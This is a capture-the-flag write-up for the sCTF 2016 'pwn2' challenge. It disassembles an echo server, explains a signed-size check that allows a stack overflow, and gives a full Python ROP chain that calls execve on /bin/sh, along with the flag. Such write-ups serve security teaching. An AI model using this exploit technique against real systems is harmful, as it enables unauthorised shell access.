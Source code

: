 ## pwn2 - 120 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2016-4-15

### Problem ###
Update: A system call was changed to allow the binary to work on some 32 bit systems. This doesn't change the flag or how it's solved. Only enables 32 bit compatibility on those systems.

Echo servers are easy stuff, right?
`nc problems2.2016q1.sctf.io 1338`

### Hint ###
You're gonna need your utility belt, full of gadgets, to solve this one.

## Answer ##

### Overview ###
Figure out how to cause a buffer overflow and create a system call for execve on /bin/sh.

### Details ###

We open up the binary and yet again find that there is a function named vuln for us to look at, how convenient.

```asm
.text:0804852F                                      public vuln
.text:0804852F                      vuln            proc near               ; CODE XREF: main+31p
.text:0804852F
.text:0804852F                      nptr            = byte ptr -2Ch
.text:0804852F                      var_C           = dword ptr -0Ch
.text:0804852F
.text:0804852F 55                                   push    ebp
.text:08048530 89 E5                                mov     ebp, esp
.text:08048532 83 EC 48                             sub     esp, 48h
.text:08048535 C7 04 24 80 86 04 08                 mov     dword ptr [esp], offset format ; "How many bytes do you want me to read? "
.text:0804853C E8 2F FE FF FF                       call    _printf
.text:08048541 C7 44 24 04 04 00 00+                mov     dword ptr [esp+4], 4
.text:08048549 8D 45 D4                             lea     eax, [ebp+nptr]
.text:0804854C 89 04 24                             mov     [esp], eax
.text:0804854F E8 8F FF FF FF                       call    get_n
.text:08048554 8D 45 D4                             lea     eax, [ebp+nptr]
.text:08048557 89 04 24                             mov     [esp], eax      ; nptr
.text:0804855A E8 61 FE FF FF                       call    _atoi
.text:0804855F 89 45 F4                             mov     [ebp+var_C], eax
.text:08048562 83 7D F4 20                          cmp     [ebp+var_C], 20h
.text:08048566 7E 15                                jle     short loc_804857D
.text:08048568 8B 45 F4                             mov     eax, [ebp+var_C]
.text:0804856B 89 44 24 04                          mov     [esp+4], eax
.text:0804856F C7 04 24 A8 86 04 08                 mov     dword ptr [esp], offset aNoThatSizeDIsT ; "No! That size (%d) is too large!\n"
.text:08048576 E8 F5 FD FF FF                       call    _printf
.text:0804857B EB 39                                jmp     short locret_80485B6
.text:0804857D                      ; ---------------------------------------------------------------------------
.text:0804857D
.text:0804857D                      loc_804857D:                            ; CODE XREF: vuln+37j
.text:0804857D 8B 45 F4                             mov     eax, [ebp+var_C]
.text:08048580 89 44 24 04                          mov     [esp+4], eax
.text:08048584 C7 04 24 CC 86 04 08                 mov     dword ptr [esp], offset aOkSoundsGood_G ; "Ok, sounds good. Give me %u bytes of da"...
.text:0804858B E8 E0 FD FF FF                       call    _printf
.text:08048590 8B 45 F4                             mov     eax, [ebp+var_C]
.text:08048593 89 44 24 04                          mov     [esp+4], eax
.text:08048597 8D 45 D4                             lea     eax, [ebp+nptr]
.text:0804859A 89 04 24                             mov     [esp], eax
.text:0804859D E8 41 FF FF FF                       call    get_n
.text:080485A2 8D 45 D4                             lea     eax, [ebp+nptr]
.text:080485A5 89 44 24 04                          mov     [esp+4], eax
.text:080485A9 C7 04 24 F8 86 04 08                 mov     dword ptr [esp], offset aYouSaidS ; "You said: %s\n"
.text:080485B0 E8 BB FD FF FF                       call    _printf
.text:080485B5 90                                   nop
.text:080485B6
.text:080485B6                      locret_80485B6:                         ; CODE XREF: vuln+4Cj
.text:080485B6 C9                                   leave
.text:080485B7 C3                                   retn
.text:080485B7                      vuln            endp
```

Pretty straight-forward, get_n gets a string and then atoi converts it to a value.

Signed compare for if its too big, but buffer size is unsigned. Enter a negative value and you can enter as many characters as you want.

nptr is 0x30 from the stack buffer so we can get eip control like so:

```python
print '-1'
# Overflow
rop = ('A'*0x30)
```

Now the next value we write will be eip at the end of the function.

Now to build a syscall to execve, first we need "/bin/sh" in memory. So we call get_n with an address thats writeable.

```python
# Call the write thing
rop += '\xe3\x84\x04\x08' + '\x4e\x86\x04\x08'  + '\x24\xa0\x04\x08' + 'BBBB'
```

Essentially `get_n(0x804a024, 0x42424242);`

After that we can just print "/bin/sh\0" and get a C string for /bin/sh in the file.

Now we need to setup the syscall params.

```python
# Set eax to the proper value, 0xb
rop += '\x70\x83\x04\x08' + '\xe1\x84\x04\x08' + '\x24\xa0\x04\x08' # eax = 7
rop += '\xd3\x84\x04\x08'*4 # add 4 to eax
```

Here we print "/bin/sh" which will set `ecx` to 7 and coincidentally `ecx` will also end up being 7.

```python
# "/bin/sh", 0 is now at 0x804a024
# set ebx to that
rop += '\x76\x86\x04\x08' + '\x24\xa0\x04\x08'
```

Simply pop the ptr to "/bin/sh" into `ebx`

```python
# Ecx = ptr to 0
rop += '\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08'
```

This probably looks pretty cancer, and it is. This takes `ecx` and increments/doubles it up to be a pointer to zero, this is so that the argv/argc for /bin/sh are valid. (Also I wrote a script to generate this chain rather than me having to hand write it, generation script not included).

```python
# int 0x80
rop += '\xd0\x84\x04\x08'
print rop
print '/bin/sh\0'
```

And finally call execve to make the shell.

We print the rop chain and the input value for the get_n.


### Flag ###

The flag we get when running this on the server is `sctf{r0p_70_th3_f1n1sh}`


### Full Script ###

```python
print '-1'
# Overflow
rop = ('A'*0x30)

# Call the write thing
rop += '\xe3\x84\x04\x08' + '\x4e\x86\x04\x08'  + '\x24\xa0\x04\x08' + 'BBBB'

# Set eax to the proper value, 0xb
rop += '\x70\x83\x04\x08' + '\xe1\x84\x04\x08' + '\x24\xa0\x04\x08' # eax = 7
rop += '\xd3\x84\x04\x08'*4 # add 4 to eax

# "/bin/sh", 0 is now at 0x804a024
# set ebx to that
rop += '\x76\x86\x04\x08' + '\x24\xa0\x04\x08'

# Ecx = ptr to 0
rop += '\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08'

# int 0x80
rop += '\xd0\x84\x04\x08'

print rop
print '/bin/sh\0'
```